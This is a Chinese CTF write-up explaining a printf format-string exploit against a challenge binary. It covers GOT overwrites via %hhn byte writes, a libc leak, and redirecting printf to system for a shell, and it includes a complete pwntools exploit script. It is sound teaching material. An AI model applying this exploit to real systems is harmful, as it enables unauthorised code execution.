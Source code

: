 # 【2】格式化字符串字节写入

> 又一道利用 printf 格式化字符串漏洞达到任意写的一种可能解法。

[题目链接](https://pan.baidu.com/s/1xfGWKGKwVqgGVzrc95zgjA?pwd=2333) 找 `blog2_blog2` 文件夹

## 题目信息

### checksec

![image-20221125145422452](E:\Pictures\markdown\image-20221125145422452.png)

没有 PIE，有 canary，栈上不可执行

### elf

![image-20221125145548907](E:\Pictures\markdown\image-20221125145548907.png)

使用 **ida64** 查看

![image-20221125145826239](E:\Pictures\markdown\image-20221125145826239.png)

题目逻辑就是：输入什么，就让调用 **printf** 函数来输出什么。而且可输入长度为 256，但是不足以覆盖到栈的 **ret** 地址

## 题解

本题的解题思路如下：

1. 由于程序在正常流程下执行完一次 **printf** 就会直接调用 **exit()** 退出，**main** 函数甚至没有 **ret**，所以需要第一次直接控制程序流，让进程不断循环。这里选择改写 **exit@got** 的内容指向程序 **main** 函数中合适的地方，让程序在每次执行到 **exit()** 时都循环。
2. 程序能够循环进入以后，充分发挥 **printf** 功能，泄露某些程序的地址，进一步得到程序的基址
3. 由于 **read** 函数的输入长度不足以覆盖到 **ret** 地址，考虑用继续通过单字节修改的方式，将 **read@got** 修改成 **system@got**，再在下一次返回时传入 **libc_str_bin_sh** 以此达成 `system("/bin/sh")` 的功能

### 1. 改写 exit@got 的内容

> 格式化字符串修改内存的功能

1. `%n`：赋值，不输出字符，但是把已经成功输出的字符个数写入对应的整型指针参数所指的变量
2. `%10c%8$n`：先输出 10 个字符，再将已经打印出的字符数量(10)赋值到指针往后第 8 个所指地址中
3. `%20c%8$hhn`：往后 8 个指针的地址上写入 `\x14（单字节）`

给出的一个快速脚本如下：

```python
def fmtChangeByte(byte, position):
    result = "%{}c%{}$hhn%{}c".format(int(byte, 16), position, 256 - int(byte, 16))
    a = len(result) # 由于长度不定，扩展成 3 行来保证每一次都成功写入
    result = "%{}c%{}$hhn%{}c".format(int(byte, 16) - (24 - a), position, 256 - int(byte, 16)).rjust(24, 'a')
    return result.encode('utf8')

# 例如：将 \xab 写入到 15$hhn 的位置
fmtChangeByte('ab', 15)
```

> 确定要写入的地方

为了能让程序顺利进入循环，选择 **main + 35** 的位置作为目标地址，其值为 **0x4012a5**

<img src="E:\Pictures\markdown\image-20221125170120894.png" alt="image-20221125170120894" style="zoom:50%;" />

图中可以明确的是 **exit@got** 位置可写，其地址上的内容为 **0x401090**，那么可以 `0x404048 的 \x90 -> \xa5`，`0x404049 的 \x10 -> \x12`

通过 **gdb.attach(p, gdbscript="b *main+122")** 在输入时确定 fmt 的偏移位置：`fmtarg <目标地址>`，如图所示，则调用 `fmtChangeByte('90', 13)` 即可

<img src="E:\Pictures\markdown\image-20221125170917348.png" alt="image-20221125170917348" style="zoom:50%;" />

### 2. 泄露 libc_base

这里观察了 **栈** 和 **寄存器**，发现在 **rcx** 寄存器中存有 **read@got + 14** 的地址值，则可以通过泄露 **rcx** 寄存器，然后减去 **read + 14** 即可得到 **libc_base**，`payload = b'aaab%3$p'`

除此之外，还可以通过 `%<对应偏移>$s + p64(func_got)` 的方式，先将某函数的 got 写到栈，再对应地用 `$s` 来泄露那个位置的信息

### 3. 修改 printf@got

从 `libc_system = libc_base + libc_system_offset` 得到 **libc_system** 的地址

由于 **system** 和 **printf** 函数都通过 **rdi** 寄存器来传值，则可以修改 `printf@got -> system@got`，再传入 **libc_str_bin_sh** 即可

## EXP

完整 **exp** 如下：

```python
# -*- coding: utf-8 -*-

'''
[*] '/home/wkyuu/Desktop/temp/blog2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
'''

from pwn import *
import pwn

p64 = pwn.p64
u64 = pwn.u64

context(log_level='debug')
fileName = './blog2'
p = process(fileName)
elf = ELF(fileName)

# bin
bin_func_main = elf.sym['main'] + 35    # ret 2 [call init()]
bin_pop_rdi_ret = 0x401383    # ROPgadget --binary blog2 | grep "pop rdi"
bin_exit_got = elf.got['exit']
bin_printf_got = elf.got['printf']

# libc
libc_read_14 = 0xfa340 + 14
libc_system = 0x4a490
libc_str_bin_sh = 0x1b3115

def logger(msg, value=None, type='info'):  # type True for value
    if type == 'info':
        log.info(
            '================================ {} ================================\n'.format(msg))
    else:
        log.success('# {} => {}\n'.format(msg, value))
        
def fmtChangeByte(byte, position):
    result = "%{}c%{}$hhn%{}c".format(int(byte, 16), position, 256 - int(byte, 16))
    a = len(result) # 由于长度不定，扩展成 3 行来保证每一次都成功写入
    result = "%{}c%{}$hhn%{}c".format(int(byte, 16) - (24 - a), position, 256 - int(byte, 16)).rjust(24, 'a')
    return result.encode('utf8')

# gdbscript = '''
# b *main+122
# c
# '''
# gdb.attach(p, gdbscript=gdbscript)

# rewrite exit@got to main+35
logger('rewrite exit@got to main+35')
# 0x404048 -> a5
# 0x404049 -> 12
payload = fmtChangeByte('a5', 12) + fmtChangeByte('12', 13) + p64(bin_exit_got) + p64(bin_exit_got + 1)
p.sendlineafter('input sth: \n', payload)

# leak_libc
logger('leak_libc')
payload = b'aaab%3$p'
p.sendlineafter(b'input sth: \n', payload)
p.recvuntil(b'b')

leak_read_got_14 = int(p.recv(14), 16)
libc_base = leak_read_got_14 - libc_read_14
libc_system = libc_base + libc_system
libc_str_bin_sh = libc_base + libc_str_bin_sh

logger('libc_base', hex(libc_base), 'success')
logger('leak_read_got_14', hex(leak_read_got_14), 'success')
logger('libc_system', hex(libc_system), 'success')
logger('libc_str_bin_sh', hex(libc_str_bin_sh), 'success')

# rewrite printf@got to libc_system
logger('rewrite printf@got to libc_system')
libc_system = hex(libc_system)
libc_system_0 = libc_system[-2:]
libc_system_1 = libc_system[-4:-2]
libc_system_2 = libc_system[-6:-4]

payload = fmtChangeByte(libc_system_0, 17) + fmtChangeByte(libc_system_1, 18) + fmtChangeByte(libc_system_2, 19) + \
    p64(bin_printf_got) + p64(bin_printf_got + 1) + p64(bin_printf_got + 2)
p.sendlineafter(b'input sth: \n', payload)

# getshell
logger('getshell')
p.sendlineafter(b'input sth: \n', p64(libc_str_bin_sh))
p.interactive()
```

